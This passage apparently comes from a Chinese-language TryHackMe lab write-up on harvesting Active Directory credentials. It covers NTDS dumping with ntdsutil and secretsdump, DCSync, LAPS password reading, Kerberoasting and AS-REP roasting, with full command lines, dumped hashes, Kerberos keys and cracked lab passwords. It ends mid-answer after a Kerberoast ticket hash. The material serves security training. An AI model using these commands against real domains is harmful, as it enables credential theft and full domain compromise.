```plaintext
THM{RunA5S4veCr3ds}
```

:::

## Domain Controller - 域控制器

这个任务讨论了本地和远程转储域控制器哈希所需的步骤。

### NTDS 域控制器

新技术目录服务（NTDS）是一个包含所有活动目录数据的数据库，包括对象、属性、凭据等。NTDS.DTS 数据包括三个表格，如下所示：

- 模式表：包含对象类型及其关系。
- 链接表：包含对象的属性及其值。
- 数据类型：包含用户和组。

NTDS 默认位于 C:\Windows\NTDS，并加密以防止从目标机器提取数据。默认情况下，禁止从运行中的机器访问 NTDS.dit 文件，因为该文件被活动目录使用并被锁定。然而，有各种方法可以获取访问权限。本任务将讨论如何使用 ntdsutil 和 Diskshadow 工具获取 NTDS 文件的副本，最终如何转储文件的内容。值得注意的是，解密 NTDS 文件需要系统启动密钥来尝试解密 LSA 隔离的凭据，该密钥存储在安全文件系统中。因此，我们还必须转储包含所有所需文件以解密的安全文件。

### Ntdsutil

Ntdsutil 是一个 Windows 实用工具，用于管理和维护 Active Directory 配置。它可在各种场景下使用，比如：

- 恢复被删除的 Active Directory 对象。
- 对 AD 数据库执行维护操作。
- 管理 Active Directory 快照。
- 设置目录服务恢复模式（DSRM）管理员密码。

如需了解更多关于 Ntdsutil 的信息，请查阅 [Ntdsutil - Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753343(v=ws.11)) 。

### 本地转储（无凭证）

通常这样做是因为你没有可用的凭据，但是对域控制器有管理员访问权限。因此，我们将依赖 Windows 实用工具来转储 NTDS 文件并进行离线破解。作为前提条件，首先假设我们对域控制器有管理员权限。

要成功转储 NTDS 文件的内容，我们需要以下文件：

- C:\Windows\NTDS\ntds.dit
- C:\Windows\System32\config\SYSTEM
- C:\Windows\System32\config\SECURITY

以下是一个一行的 PowerShell 命令，使用 Ntdsutil 工具在 `C:\temp` 目录下转储 NTDS 文件的内容。

```shell title="Dumping the content of the NTDS file from the Victim Machine"
powershell "ntdsutil.exe'ac i ntds''ifm' 'create full c:\temp' q q"
```

现在，如果我们检查 `c:\temp` 目录，会看到两个文件夹：`Active Directory` 和 `registry` ，它们包含我们需要的三个文件。将它们传输到 AttackBox 并运行 secretsdump.py 脚本，从转储的内存文件中提取哈希值。

```shell title="Extract hashes from NTDS Locally"
user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
```

### 远程转储（带凭证）

在前面的部分，我们讨论了如何在没有凭据的情况下从内存中获取哈希值。在这个任务中，我们将展示如何远程转储系统和域控制器的哈希值，这需要凭据，比如密码或 NTLM 哈希。我们还需要具有对域控制器具有管理员访问权限或特殊权限的用户的凭据，就像在 DC Sync 部分讨论的那样。

### DC Sync - 域控制器同步

DC Sync 是在 Active Directory 环境中执行的一种流行攻击，用于远程转储凭据。当一个帐户（具有必要权限的特殊帐户）或 AD 管理员帐户被攻破，并具有以下 AD 权限时，此攻击生效：

- 复制目录更改
- 复制所有目录更改
- 复制过滤集中的目录更改

对手利用这些配置执行域复制，通常称为 “DC Sync” 或域控制器同步。如需了解有关 DC Sync 攻击的更多信息，可以访问 `Persisting AD` （任务 2）。

`Persisting AD` room 使用 Mimikatz 工具执行 DC 同步攻击。让我们使用不同的工具，比如 Impacket SecretsDump 脚本来演示这个攻击。

```shell title="Performing the DC Sync Attack"
user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -just-dc THM.red/<AD_Admin_User>@MACHINE_IP
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
thm.red\thm:1114:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
```

以下是对命令的进一步解释：

- `-just-dc` 参数用于提取 NTDS 数据。
- `thm.red/AD_Admin_User` 是认证的域用户，格式为（域 / 用户）。

请注意，如果我们只对转储 NTLM 哈希感兴趣，可以使用 `-just-dc-ntlm` 参数，如下所示：

```shell title="The DC Sync Attack to Dump NTLM Hashes"
user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -just-dc-ntlm THM.red/<AD_Admin_User>@MACHINE_IP
```

获取哈希后，我们可以使用该哈希来模拟特定用户，或者使用破解工具（如 `hashcat` ）来破解哈希。我们可以使用 hashcat 的 `-m 1000` 模式来破解 Windows NTLM 哈希，操作步骤如下：

```shell title="Cracking the Hashes"
user@machine$ hashcat -m 1000 -a 0 /path/to/ntlm_hashes.txt /path/to/wordlist/such/as/rockyou.txt
```

:::info Answer the questions below

应用本任务中讨论的技术来本地转储 NTDS 文件并提取哈希。目标系统的启动密钥（ `bootkey` ）数值是多少？注意：使用 thm.red/thm 作为 Active Directory 用户，因为它具有管理员权限。

<details>

<summary> 具体操作步骤 </summary>

在管理员权限下的 cmd 中执行：

```shell
C:\Windows\system32>powershell "ntdsutil.exe'ac i ntds''ifm' 'create full c:\temp' q q"
C:\Windows\system32\ntdsutil.exe: ac i ntds
Active instance set to "ntds".
C:\Windows\system32\ntdsutil.exe: ifm
ifm: create full c:\temp
Creating snapshot...
Snapshot set {5b364736-fc8c-485b-ba17-05a798e474e0} generated successfully.
Snapshot {58fb5f99-6361-4934-ad55-ccfea3e7ccb5} mounted as C:\$SNAP_202312140933_VOLUMEC$\
Snapshot {58fb5f99-6361-4934-ad55-ccfea3e7ccb5} is already mounted.
Initiating DEFRAGMENTATION mode...
        Source Database: C:\$SNAP_202312140933_VOLUMEC$\Windows\NTDS\ntds.dit
        Target Database: c:\temp\Active Directory\ntds.dit

                Defragmentation  Status (omplete)
        0    10   20   30   40   50   60   70   80   90  100
        |----|----|----|----|----|----|----|----|----|----|
        ...................................................

Copying registry files...
Copying c:\temp\registry\SYSTEM
Copying c:\temp\registry\SECURITY
Snapshot {58fb5f99-6361-4934-ad55-ccfea3e7ccb5} unmounted.
IFM media created successfully in c:\temp
ifm: q
C:\Windows\system32\ntdsutil.exe: q
```

将得到的数据回传到本地后，进行哈希数据提取

```shell
$impacket-secretsdump -security ./registry/SECURITY -system ./registry/SYSTEM -ntds ./Active\ Directory/ntds.dit local
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:201a0d441f046d6d5a13454b9f78ce4d02c0294a5698e1f7cb41ac9191871bc6440e2549ebc3d6706616c3efd53384caf347564774d97af0ed2d8c895ecb4b7fdf7dfc2c63fc76548816b2d64ec4de7c257ea4ee078b1368dfef3c4ccbedde8184f8de026975393e53daa737626b27810cb808a68d0dbf9a7cd16a1579f413cf363ffe24134de9af8f7886e0e47d120b9399a227939150083f0f597863a43a2069a1fd920835f9ce5d0bfa482a4db68e187e23281800c94090c86ec4bb1cb601c778443cc40b3b977b8a21ce83efd0beebb622408172b81853269ec642e4b8b0c6dfefa101fc2eb9ffc688847998405d
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b58f86f6a4990fe96f91b720ef6efbd6
[*] DPAPI_SYSTEM
dpapi_machinekey:0x0e88ce11d311d3966ca2422ac2708a4d707e00be
dpapi_userkey:0x8b68be9ef724e59070e7e3559e10078e36e8ab32
[*] NL$KM
 0000   8D D2 8E 67 54 58 89 B1  C9 53 B9 5B 46 A2 B3 66   ...gTX...S.[F..f
 0010   D4 3B 95 80 92 7D 67 78  B7 1D F9 2D A5 55 B7 A3   .;...}gx...-.U..
 0020   61 AA 4D 86 95 85 43 86  E3 12 9E C4 91 CF 9A 5B   a.M...C........[
 0030   D8 BB 0D AE FA D3 41 E0  D8 66 3D 19 75 A2 D1 B2   ......A..f=.u...
NL$KM:8dd28e67545889b1c953b95b46a2b366d43b9580927d6778b71df92da555b7a361aa4d8695854386e3129ec491cf9a5bd8bb0daefad341e0d8663d1975a2d1b2
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 55db1e9562985070bbba0ef2cc25754c
[*] Reading and decrypting hashes from ./Active Directory/ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc9b72f354f0371219168bdb1460af32:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CREDS-HARVESTIN$:1008:aad3b435b51404eeaad3b435b51404ee:b58f86f6a4990fe96f91b720ef6efbd6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ec44ddf5ae100b898e9edab74811430d:::
thm.red\thm:1114:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
thm.red\victim:1115:aad3b435b51404eeaad3b435b51404ee:6c3d8f78c69ff2ebc377e19e96a10207:::
thm.red\thm-local:1116:aad3b435b51404eeaad3b435b51404ee:077cccc23f8ab7031726a3b70c694a49:::
thm.red\admin:1118:aad3b435b51404eeaad3b435b51404ee:077cccc23f8ab7031726a3b70c694a49:::
thm.red\svc-thm:1119:aad3b435b51404eeaad3b435b51404ee:5858d47a41e40b40f294b3100bea611f:::
thm.red\bk-admin:1120:aad3b435b51404eeaad3b435b51404ee:077cccc23f8ab7031726a3b70c694a49:::
thm.red\test-user:1127:aad3b435b51404eeaad3b435b51404ee:5858d47a41e40b40f294b3100bea611f:::
sshd:1128:aad3b435b51404eeaad3b435b51404ee:a78d0aa18c049d268b742ea360849666:::
[*] Kerberos keys from ./Active Directory/ntds.dit
Administrator:aes256-cts-hmac-sha1-96:510e0d5515009dc29df8e921088e82b2da0955ed41e83d4c211031b99118bf30
Administrator:aes128-cts-hmac-sha1-96:bab514a24ef3df25c182f5520bfc54a0
Administrator:des-cbc-md5:6d34e608f8574632
CREDS-HARVESTIN$:aes256-cts-hmac-sha1-96:2468846f673a240853d59cb3993ede3c072deeef65a115a42b08d21f9a48fcb8
CREDS-HARVESTIN$:aes128-cts-hmac-sha1-96:b7566c763172b7356826d9b6e03c14dc
CREDS-HARVESTIN$:des-cbc-md5:5e760d3137c2ea73
krbtgt:aes256-cts-hmac-sha1-96:24fad271ecff882bfce29d8464d84087c58e5db4083759e69d099ecb31573ad3
krbtgt:aes128-cts-hmac-sha1-96:2feb0c1629b37163d59d4c0deb5ce64c
krbtgt:des-cbc-md5:d92ffd4abf02b049
thm.red\thm:aes256-cts-hmac-sha1-96:2a54bb9728201d8250789f5e793db4097630dcad82c93bcf9342cb8bf20443ca
thm.red\thm:aes128-cts-hmac-sha1-96:70179d57a210f22ad094726be50f703c
thm.red\thm:des-cbc-md5:794f3889e646e383
thm.red\victim:aes256-cts-hmac-sha1-96:588635fd39ef8a9a0dd1590285712cb2899d0ba092a6e4e87133e4c522be24ac
thm.red\victim:aes128-cts-hmac-sha1-96:672064af4dd22ebf2f0f38d86eaf0529
thm.red\victim:des-cbc-md5:457cdc673d3b0d85
thm.red\thm-local:aes256-cts-hmac-sha1-96:a7e2212b58079608beb08542187c9bef1419d60a0daf84052e25e35de1f04a26
thm.red\thm-local:aes128-cts-hmac-sha1-96:7c929b738f490328b13fb14a6cfb09cf
thm.red\thm-local:des-cbc-md5:9e3bdc4c2a6b62c4
thm.red\admin:aes256-cts-hmac-sha1-96:7441bc46b3e9c577dae9b106d4e4dd830ec7a49e7f1df1177ab2f349d2867c6f
thm.red\admin:aes128-cts-hmac-sha1-96:6ffd821580f6ed556aa51468dc1325e6
thm.red\admin:des-cbc-md5:32a8a201d3080b2f
thm.red\svc-thm:aes256-cts-hmac-sha1-96:8de18b5b63fe4083e22f09dcbaf7fa62f1d409827b94719fe2b0e12f5e5c798d
thm.red\svc-thm:aes128-cts-hmac-sha1-96:9fa57f1b464153d547cca1e72ad6bc8d
thm.red\svc-thm:des-cbc-md5:f8e57c49f7dc671c
thm.red\bk-admin:aes256-cts-hmac-sha1-96:48b7d6de0b3ef3020b2af33aa43a963494d22ccbea14a0ee13b63edb1295400e
thm.red\bk-admin:aes128-cts-hmac-sha1-96:a6108bf8422e93d46c2aef5f3881d546
thm.red\bk-admin:des-cbc-md5:108cc2b0d3100767
thm.red\test-user:aes256-cts-hmac-sha1-96:2102b093adef0a9ddafe0ad5252df78f05340b19dfac8af85a4b4df25f6ab660
thm.red\test-user:aes128-cts-hmac-sha1-96:dba3f53ecee22330b5776043cd203b64
thm.red\test-user:des-cbc-md5:aec8e3325b85316b
sshd:aes256-cts-hmac-sha1-96:07046594c869e3e8094de5caa21539ee557b4d3249443e1f8b528c4495725242
sshd:aes128-cts-hmac-sha1-96:e228ee34b8265323725b85c6c3c7d85f
sshd:des-cbc-md5:b58f850b4c082cc7
[*] Cleaning up...
```

</details>

```plaintext
0x36c8d26ec0df8b23ce63bcefa6e2d821
```

用户名为 bk-admin 的明文密码是什么？

<details>

<summary> 具体操作步骤 </summary>

在上面一题的结果中，得到哈希值：

```plaintext
thm.red\bk-admin:1120:aad3b435b51404eeaad3b435b51404ee:077cccc23f8ab7031726a3b70c694a49:::
```

在线查询 NTLM 彩虹表可以得到明文：

```plaintext
Hash     Type     Result
077cccc23f8ab7031726a3b70c694a49     NTLM     Passw0rd123
```

</details>

```plaintext
Passw0rd123
```

:::

## Local Administrator Password Solution (LAPS) - 本地管理员密码解决方案（LAPS）

这个任务讨论了在 Active Directory 环境中，如果配置并启用了 LAPS 功能，如何枚举并获取本地管理员密码。

### Group Policy Preferences - 组策略首选项 (GPP)

Windows 操作系统有一个内置的管理员账户，可以使用密码访问。在具有许多计算机的大型 Windows 环境中更改密码是具有挑战性的。因此，微软实施了一种方法，使用组策略首选项（GPP）跨工作站更改本地管理员账户。

GPP 是一个工具，允许管理员创建带有嵌入凭据的域策略。一旦部署了 GPP，就会在 SYSVOL 文件夹中创建不同的 XML 文件。SYSVOL 是 Active Directory 的重要组成部分，它在 NTFS 卷上创建一个共享目录，所有经过身份验证的域用户都可以以只读权限访问。

问题在于，GPP 相关的 XML 文件包含使用 AES-256 位加密的密码。当时，这种加密足够安全，直到微软不知何故在 [2.2.1.1.4 Password Encryption - MSDN](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN) 上发布了其私钥。由于域用户可以读取 SYSVOL 文件夹的内容，因此很容易解密存储的密码。其中一个用于破解 SYSVOL 加密密码的工具是 [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) 。

### Local Administrator Password Solution - 本地管理员密码解决方案 (LAPS)

2015 年，微软移除了将加密密码存储在 SYSVOL 文件夹的做法。它推出了本地管理员密码解决方案（LAPS），为远程管理本地管理员密码提供了更加安全的方法。

新的方法包括 Active Directory 中计算机对象的两个新属性（ms-mcs-AdmPwd 和 ms-mcs-AdmPwdExpirationTime）。`ms-mcs-AdmPwd` 属性包含本地管理员的明文密码，而 `ms-mcs-AdmPwdExpirationTime` 包含重置密码的过期时间。LAPS 使用 `admpwd.dll` 来更改本地管理员密码并更新 `ms-mcs-AdmPwd` 的值。

<div style={{textAlign:'center'}}>


</div>

### 枚举 LAPS

房间所提供的虚拟机已启用了 LAPS，所以让我们开始枚举它。首先，我们检查目标机器是否安装了 LAPS，可以通过检查 `admpwd.dll` 路径来完成。

```shell title="Enumerating for LAPS"
C:\Users\thm>dir "C:\Program Files\LAPS\CSE"
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Program Files\LAPS\CSE

06/06/2022  01:01 PM              .
06/06/2022  01:01 PM              ..
05/05/2021  07:04 AM           184,232 AdmPwd.dll
               1 File(s)        184,232 bytes
               2 Dir(s)  10,306,015,232 bytes free
```

输出确认了我们在机器上有 LAPS。让我们检查可用的 `AdmPwd` 命令，如下所示：

```shell title="Listing the available PowerShell cmdlets for LAPS - 列出 LAPS 的可用 PowerShell 命令"
PS C:\Users\thm> Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS
```

接下来，我们需要找出哪个 AD 组织单位（OU）具有处理 LAPS 的 “所有扩展权限” 属性。我们将使用 “Find-AdmPwdExtendedRights” 命令来确定正确的 OU。请注意，在枚举步骤中可以获取可用的 OU。在本例中，我们的 OU 目标是 THMorg。您可以使用 `-Identity *` 参数列出所有可用的 OU。

```shell title="Finding Users with AdmPwdExtendedRights Attribute - 查找属于 THMGroupReader 组的用户"
PS C:\Users\thm> Find-AdmPwdExtendedRights -Identity THMorg

ObjectDN                                      ExtendedRightHolders
--------                                      --------------------
OU=THMorg,DC=thm,DC=red                       {THM\THMGroupReader}
```

输出显示 THMorg 中的 THMGroupReader 组具有对 LAPS 的正确访问权限。让我们检查该组及其成员。

```shell title="Finding Users belong to THMGroupReader Group - 查找属于 THMGroupReader 组的用户"
PS C:\Users\thm> net groups "THMGroupReader"
Group name     THMGroupReader
Comment

Members

-------------------------------------------------------------------------------
bk-admin
The command completed successfully.

PS C:\Users\victim> net user test-admin
User name                    test-admin
Full Name                    THM Admin Test Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

[** Removed **]
Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
                             *THMGroupReader           *Enterprise Admins
The command completed successfully.
```

### 获取密码

我们发现 `bk-admin` 用户是 `THMGroupReader` 的成员，所以为了获取 LAPS 密码，我们需要入侵或模拟 bk-admin 用户。在入侵了正确的用户之后，我们可以使用 `Get-AdmPwdPassword` 命令提供启用了 LAPS 的目标机器来获取 LAPS 密码。

```shell title="Getting LAPS Password with the Right User - 使用当前的用户获取 LAPS 密码"
PS C:\> Get-AdmPwdPassword -ComputerName creds-harvestin

ComputerName         DistinguishedName                             Password           ExpirationTimestamp
------------         -----------------                             --------           -------------------
CREDS-HARVESTIN      CN=CREDS-HARVESTIN,OU=THMorg,DC=thm,DC=red    FakePassword    2/11/2338 11:05:2...
```

值得注意的是，在现实世界的 AD 环境中，LAPS 仅在特定机器上启用。因此，您需要枚举并找到正确的目标计算机以及正确的用户账户才能获取 LAPS 密码。有许多脚本可以帮助完成这个任务，但我们在 `C:\Tool` 中包含了 [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) PowerShell 脚本，您可以尝试使用它。

:::info Answer the questions below

哪个组具有 ExtendedRightHolder 并且能够读取 LAPS 密码？

<details>

<summary> 具体操作步骤 </summary>

```powershell
PS C:\Windows\system32> Find-AdmPwdExtendedRights -Identity THMorg
ObjectDN                                      ExtendedRightHolders
--------                                      --------------------
OU=THMorg,DC=thm,DC=red                       {THM\LAPsReader}
```

</details>

```plaintext
LAPsReader
```

按照本任务中讨论的技术获取 LAPS 密码。对于 Creds-Harvestin 计算机，LAPS 密码是什么？

<details>

<summary> 具体操作步骤 </summary>

```powershell
PS C:\Windows\system32> Get-AdmPwdPassword -ComputerName creds-harvestin
ComputerName         DistinguishedName                             Password           ExpirationTimestamp
------------         -----------------                             --------           -------------------
CREDS-HARVESTIN      CN=CREDS-HARVESTIN,OU=THMorg,DC=thm,DC=red    THMLAPSPassw0rd    2/11/2338 11:05:2...
```

</details>

```plaintext
THMLAPSPassw0rd
```

哪个用户能够读取 LAPS 密码？

<details>

<summary> 具体操作步骤 </summary>

```powershell
PS C:\Windows\system32> Find-AdmPwdExtendedRights -Identity THMorg
ObjectDN                                      ExtendedRightHolders
--------                                      --------------------
OU=THMorg,DC=thm,DC=red                       {THM\LAPsReader}
PS C:\Windows\system32> net group "LAPsReader"                                                                          Group name     LAPsReader
Comment

Members
-------------------------------------------------------------------------------                                         bk-admin

The command completed successfully.
```

</details>

```plaintext
bk-admin
```

:::

## Other Attacks - 其他攻击

在先前的任务中，假设我们已经获得了对系统的初始访问权限，并尝试从内存或 Windows 操作系统中的各种文件中获取凭据。在其他情况下，可以在受害者网络中执行攻击以获取凭据。

本任务将简要介绍一些可用于获取哈希值的 Windows 和 AD 攻击。在深入了解更多 AD 攻击细节之前，建议先熟悉 [Kerberos 协议](https://en.wikipedia.org/wiki/Kerberos_(protocol)) 和新技术局域网管理器（NTLM），这是一套用于验证用户的安全协议套件。

### Kerberoasting

Kerberoasting 是一种常见的 AD 攻击，用于获取 AD 票据，有助于实现持久性。为了使这种攻击生效，攻击者必须能够访问 SPN（服务主体名称）账户，如 IIS 用户、MSSQL 等。Kerberoasting 攻击涉及请求票据授予票据（TGT）和票据授予服务（TGS）。这种攻击的最终目标是实现特权升级和横向网络移动。关于该攻击的更多详细信息，您可以访问 THM `Persisting AD` room（任务 3）。

让我们进行一次有关该攻击的快速演示。首先，我们需要找到一个或多个 SPN 账户，然后可以发送请求以获取 TGS 票据。我们将从 AttackBox 使用 GetUserSPNs.py Python 脚本执行 Kerberoasting 攻击。记得使用 `THM.red/thm` 账户，密码为 `Passw0rd!` 。

```shell title="Enumerating for SPN Accounts - 枚举 SPN 账户"
user@machine$ python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.5.254 THM.red/thm
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ervicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578
```

之前的命令很简单：我们提供了域控制器的 IP 地址和域名 \ 用户名。然后 GetUserSPNs 脚本会要求输入用户的密码以获取所需信息。

输出显示我们有一个 SPN 账户，svc-user。一旦找到了 SPN 用户，我们可以使用 `-request-user` 参数发送单个请求，为 srv-user 用户获取一个 TGS 票据。

```shell title="Requesting a TGS Ticket as SPN Account - 作为 SPN 账户请求一个 TGS 票据"
user@machine$ python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.5.254 THM.red/thm -request-user svc-user
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578

[-] CCache file is not found. Skipping...
$krb5tgs$23$*svc-user$THM.RED$THM.red/svc-user*$8f5de4211da1cd5715217[*REMOVED*]7bfa3680658dd9812ac061c5
```

现在的问题是使用 Hashcat 工具破解获取到的 TGS 票据，使用 `-m 13100` 模式如下进行。

```shell title="Cracking the TGS Ticket using Hashcat - 使用 Hashcat 破解 TGS 票据"
user@machine$ hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
```

尝试复制附加的虚拟机中的步骤，找到 SPN 用户并执行 Kerberoasting 攻击。一旦你获得了票据，请破解它并回答下面的问题。

### AS-REP Roasting

AS-REP 烘烤是一种技术，使攻击者能够检索到 AD 用户的密码哈希值，这些用户的账户选项被设置为 “不需要 Kerberos 预身份验证”。这个选项依赖于旧的 Kerberos 认证协议，允许在没有密码的情况下进行身份验证。一旦我们获得这些哈希值，我们可以尝试离线破解它，最终，如果可以破解，就可以得到密码！

<div style={{textAlign:'center'}}>



</div>

附加的虚拟机中有一个 AD 用户配置了 “不需要 Kerberos 预身份验证” 的设置。在执行 AS-REP 烘烤之前，我们需要从枚举步骤中收集一个域账户列表。在我们的情况下，我们在 tmp 目录下创建了一个 `users.lst` 列表。以下是我们列表的内容，应该在枚举过程中收集到的内容。

```plaintext
Administrator
admin
thm
test
sshd
victim
CREDS-HARVESTIN$
```

这次我们将使用 Impacket 的 Get-NPUsers 脚本，操作如下：

```shell title="Performing an AS-REP Roasting Attack against Users List - 对用户列表执行 AS-REP Roasting 攻击"
root@machine$ python3.9 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.5.254 thm.red/ -usersfile /tmp/users.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User thm doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$victim@THM.RED:166c95418fb9dc495789fe9[**REMOVED**]1e8d2ef27$6a0e13abb5c99c07
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bk-admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-user doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User thm-local doesn't have UF_DONT_REQUIRE_PREAUTH set
```

我们使用了 `-dc-ip` 参数指定了域控制器的 IP 地址，并提供了一个要检查的域用户列表。一旦工具找到没有预身份验证配置的正确用户，它将生成票据。

各种网络安全和黑客工具也允许破解从活动目录中收集到的 TGT（Ticket Granting Ticket），包括 Rubeus 和 Hashcat。Impacket GetNPUsers 有 `-format` 参数选项，可以将票据导出为 John 或 hashcat 格式。

### SMB Relay Attack - SMB 中继攻击

SMB 中继攻击利用了 NTLM 认证机制（NTLM 挑战 - 响应协议）。攻击者执行中间人攻击来监视和捕获 SMB 数据包，并提取哈希值。为了使这种攻击生效，SMB 签名必须被禁用。SMB 签名是完整性的安全检查，确保通信双方是可信的源。

我们建议查看 THM `Exploiting AD` 房间，获取有关 SMB 中继攻击的更多信息。

### LLMNR/NBNS Poisoning

Link-Local Multicast Name Resolution (LLMNR) 和 NetBIOS Name Service (NBT-NS) 帮助本地网络机器在 DNS 失败时找到正确的机器。例如，假设网络中的某台机器尝试与没有现有 DNS 记录（DNS 无法解析）的机器通信。那么该机器会通过 LLMNR 或 NBT-NS 向所有网络机器发送多播消息，询问正确地址。

NBNS/LLMNR 中毒发生在攻击者欺骗网络上的授权源，并对 Link-Local Multicast Name Resolution (LLMNR) 和 NetBIOS Name Service (NBT-NS) 流量以主机识别服务的形式响应到请求的主机上。如果想了解更多有关攻击的信息，建议查看 THM `Breaching AD` 房间。

SMB 中继和 LLMNR/NBNS 中毒攻击的最终目标是捕获受害者的身份验证 NTLM 哈希，从而帮助获取对受害者账户或机器的访问权限。

:::info Answer the questions below

使用 Impacket 的 GetUserSPNs 脚本进行 SPN 用户枚举。域控制器的 Service Principal Name 是什么？

<details>

<summary> 具体操作步骤 </summary>

```shell
$impacket-GetUserSPNs -dc-ip 10.10.5.254 THM.red/thm
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-thm            2022-06-10 17:47:33.796826  <never>
```

</details>

```plaintext
svc-thm
```

在找到上一个问题中的 SPN 账户后，执行 Kerberoasting 攻击以获取 TGS 票据并进行破解。密码是什么？

<details>

<summary> 具体操作步骤 </summary>

请求一个 TGS 票据

```shell
$impacket-GetUserSPNs -dc-ip 10.10.5.254 THM.red/thm -request-user svc-thm
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-thm            2022-06-10 17:47:33.796826  <never>


$krb5tgs$23$*svc-thm$THM.RED$THM.red/svc-thm*$8c185b60958c2ef72ef1446f72ae2a43$205f25089c156df6e2a1a37c5309b704df042846a8d538968a1af9e164f5988fcf2642d1734c0344b10962121d05092802ac373a3210a9e5d88479e4a9a403072ce8d1a0b64c6d95a1655478c8df19ab20d1d88e30a60d5cfc81d1fc704daaf481931de7c93499030f5ba3eed14127bec73083a1f52b40ef4aae129fbd99e5cbd850e9ad77706ec57e7fbc7c12a3ad548e6f992dec6c46b845c2f0472be7ce9a15dca244288635320f7bfb378148edbbcc91c04d84227529c42dfd08787fa159a801375822fcf0e8ca9b2d97130017b9fa65fa0d9c303441f7b0c1ec8ebb59827bd231e4b9fdf8a677aaf16d5cbc8eeeab72fffc97b0fb0e6fd2d2418fd926d6afcda4b4ecb2550d6fc7641e4b5cb52a8b21240e626b511fd89d0520572fa857f14abe47a38553453df554c9fc366d9496a32bd25532dfbc8be8243d086eb306873a26d022819cb96316ca49457c83ce84d482dbc896739d4fcf05eeb6846fcaa80da81bfe444dbdc1dc9f4a4423c548f6677f6dc66c6ed7479f3d7336bf94f7ed006377445d0a2bfceaa4aa72be86adc51d8ef5a7e161e82a2659cca07230af4f00aa73ece2d5998cc90c83086be5a6c2086ed171ad2e608c132df8bb4f981842a7493b5a9938f1cc5b68a3916342534dba83688b423b46109084d070e2ffc0b1ab4141c77fa188c566c512059bdd5e09174bd4ef896c88554b82d1cc742994fc1ac8ad764cf77f5bb993fbf0526e733d6832a69a4fa005cc9fd3671e37bab53f42e84acfeacc2f104b08fd9350abdd7afece4e89b8fd240951512d1d1cc46343378d4d05f16c58cc0ab7d126794c892429764bc2cbb0335c3b131514b3adcd9188bd6ea3ea052b7a061af8a0769c9c7fd45c6dbe081b2546d4c3211df253582c8be2096970feb5a941ed53753bad6f7cbb0e2fc918342616762b9618948f39dc7a77c8d3cd1fcaee958308896e93f88bb439a3a24e08ad0